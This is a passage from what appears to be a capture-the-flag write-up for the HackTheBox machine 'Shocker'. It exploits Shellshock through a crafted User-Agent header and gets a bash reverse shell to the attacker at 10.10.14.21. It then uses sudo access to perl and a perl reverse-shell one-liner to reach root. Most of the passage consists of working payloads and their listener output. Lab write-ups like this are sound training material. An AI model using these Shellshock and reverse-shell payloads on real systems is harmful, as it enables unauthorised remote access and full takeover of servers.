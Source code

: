 And we get an answer.

I try to create various netcat reverse shells. Like:

`User-Agent: () { :; }; echo; /bin/bash -c 'nc 10.10.14.21 1337 -e /bin/bash'` to use netcat. But I don’t think netcat will do here. So I try the more manual approach:

`User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'`

And on the listener:

```
kali@kali:~/htb/Shocker$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.175 47946
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 
```

So Shelly is not sudo, let’s check the permissions:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
```

Ooh. root access to perl. That should be it.

So I quickly find a perl reverse shell one liner:

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.21";$p=1338;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
<en(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'                  
```

And on the listener:

```
kali@kali:~/htb/Shocker$ sudo rlwrap nc -nlvp 1338
Listening on 0.0.0.0 1338
Connection received on 10.129.1.175 60064
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```
